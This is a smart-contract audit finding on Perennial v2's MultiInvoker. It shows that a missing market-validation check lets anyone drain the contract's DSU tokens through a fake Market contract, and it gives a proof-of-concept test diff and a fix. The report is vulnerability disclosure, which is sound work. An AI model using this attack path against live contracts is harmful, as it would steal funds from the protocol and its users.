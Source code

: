 Faithful Burlap Boa

high

# DSU token balance of MultiInvoker contract can be drained by anyone
Due to a missing `marketFactory.instances(market)` check when performing a `PerennialAction.UPDATE_POSITION` via [MultiInvoker.invoke(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L108-L162), **anyone** can drain the whole `DSU` token balance by providing a fake `Market` contract. 

## Vulnerability Detail
Although, the `MultiInvoker` contract is - as its name says - an invoker contract, it can hold a **non-zero** balance of `DSU` tokens due to its market & vault update mechanism, which is **mostly** handled correctly see [L204](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L204) and [L301](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L301). Moreover, such a non-zero balance state requires a validity check of markets/vaults before giving token allowance to them, see [MultiInvoker._approve(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L236-L242).

However, when calling [MultiInvoker ._update(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L164-L185)
```solidity
    function _update(
        IMarket market,
        UFixed6 newMaker,
        UFixed6 newLong,
        UFixed6 newShort,
        Fixed6 collateral,
        bool wrap
    ) internal {
        // collateral is transferred from this address to the market, transfer from msg.sender to here
        if (collateral.sign() == 1) _deposit(collateral.abs(), wrap);

        market.update(msg.sender, newMaker, newLong, newShort, collateral, false);

        // collateral is transferred from the market to this address, transfer to msg.sender from here
        if (collateral.sign() == -1) _withdraw(msg.sender, collateral.abs(), wrap);
    }
```
by performing a `PerennialAction.UPDATE_POSITION` via [MultiInvoker.invoke(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L108-L162), the provided `IMarket market` contract is **not validated** using  `marketFactory.instances(market)`, therefore one can create a fake `Market` contract that does nothing on `market.update(...)`.

## Impact
As a cosequence, an attacker can invoke a `PerennialAction.UPDATE_POSITION` using a fake `Market` contract in order to **withdraw** an arbitrary `collateral` amount of `DSU` tokens, see [MultiInvoker._withdraw(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L256-L266), which leads to loss of funds for the protocol.
Furthermore, one can specify to unwrap the `DSU` tokens and therefore withdraw `USDC` instead.  

Note that this vulnerability also exists on `PerennialAction.LIQUIDATE`, see [MultiInvoker._liquidate(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L218-L234), but the attack path is easier using the discussed way.

## Code Snippet

The following PoC modifies the existing test case "withdraws collateral" to demonstrate the above attack path by having an **unrelated** attacker account with a fake `Market` contract withdraw `DSU` tokens from the `MultiInvoker` contract.  

Just apply the *diff* below and run the test case in `perennial-extensions` with `npx hardhat test test/unit/MultiInvoker/MultiInvoker.test.ts`:
```diff
diff --git a/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts b/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts
index 9c42c49..f165679 100644
--- a/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts
+++ b/perennial-v2/packages/perennial-extensions/test/unit/MultiInvoker/MultiInvoker.test.ts
@@ -40,9 +40,11 @@ use(smock.matchers)
 describe('MultiInvoker', () => {
   let owner: SignerWithAddress
   let user: SignerWithAddress
+  let attacker: SignerWithAddress // create unrelated account for attacker
   let usdc: FakeContract<IERC20>
   let dsu: FakeContract<IERC20>
   let market: FakeContract<IMarket>
+  let marketAttacker: FakeContract<IMarket> // fake market contract for attack
   let vault: FakeContract<IVault>
   let marketOracle: FakeContract<IOracleProvider>
   let invokerOracle: FakeContract<AggregatorV3Interface>
@@ -55,7 +57,7 @@ describe('MultiInvoker', () => {
   let multiInvoker: MultiInvoker
 
   const multiInvokerFixture = async () => {
-    ;[owner, user] = await ethers.HRE.ethers.getSigners()
+    ;[owner, user, attacker] = await ethers.HRE.ethers.getSigners()
   }
 
   beforeEach(async () => {
@@ -65,6 +67,7 @@ describe('MultiInvoker', () => {
     dsu = await smock.fake<IERC20>('IERC20')
     reward = await smock.fake<IERC20>('IERC20')
     market = await smock.fake<IMarket>('IMarket')
+    marketAttacker = await smock.fake<IMarket>('IMarket')
     vault = await smock.fake<IVault>('IVault')
     marketOracle = await smock.fake<IOracleProvider>('IOracleProvider')
     invokerOracle = await smock.fake<AggregatorV3Interface>('AggregatorV3Interface')
@@ -104,6 +107,7 @@ describe('MultiInvoker', () => {
     marketOracle.latest.returns(oracleVersion)
 
     usdc.transferFrom.whenCalledWith(user.address).returns(true)
+    // do NOT register 'marketAttacker' as valid market, because only the owner can do this
     marketFactory.instances.whenCalledWith(market.address).returns(true)
     vaultFactory.instances.whenCalledWith(vault.address).returns(true)
 
@@ -120,12 +124,16 @@ describe('MultiInvoker', () => {
     const fixture = async () => {
       vaultUpdate = { vault: vault.address }
       dsu.transferFrom.whenCalledWith(user.address, multiInvoker.address, collateral.mul(1e12)).returns(true)
-      dsu.transfer.whenCalledWith(user.address, dsuCollateral).returns(true)
+      // since DSU is a mock ERC20 token, we need to mock transfers to the attacker too
+      dsu.transfer.whenCalledWith(attacker.address, dsuCollateral).returns(true)
       usdc.transferFrom.whenCalledWith(user.address, multiInvoker.address, collateral).returns(true)
       usdc.transfer.whenCalledWith(user.address, collateral).returns(true)
 
       vault.update.returns(true)
       market.update.returns(true)
+
+      // fake attacker market needs to implement 'update' function that does nothing
+      marketAttacker.update.returns(true)
     }
 
     beforeEach(async () => {
@@ -166,13 +174,13 @@ describe('MultiInvoker', () => {
       expect(dsu.transfer).to.not.have.been.called
     })
 
-    it('withdraws collateral', async () => {
-      const a = helpers.buildUpdateMarket({ market: market.address, collateral: collateral.mul(-1) })
+    it.only('attacker withdraws collateral', async () => {
+      const a = helpers.buildUpdateMarket({ market: marketAttacker.address, collateral: collateral.mul(-1) })
 
-      await expect(multiInvoker.connect(user).invoke(a)).to.not.be.reverted
+      await expect(multiInvoker.connect(attacker).invoke(a)).to.not.be.reverted
 
-      expect(dsu.transfer).to.have.been.calledWith(user.address, dsuCollateral)
-      expect(market.update).to.have.been.calledWith(user.address, '0', '0', '0', collateral.mul(-1), false)
+      expect(dsu.transfer).to.have.been.calledWith(attacker.address, dsuCollateral)
+      expect(marketAttacker.update).to.have.been.calledWith(attacker.address, '0', '0', '0', collateral.mul(-1), false)
     })
 
     it('withdraws and unwraps collateral', async () => {

```

## Tool used
Manual Review

## Recommendation
Always require `Market` and `Vault` instances to be valid (via their respective factories). A working example is already given by [MultiInvoker._approve(...)](https://github.com/sherlock-audit/2023-07-perennial/blob/main/perennial-v2/packages/perennial-extensions/contracts/MultiInvoker.sol#L236-L242).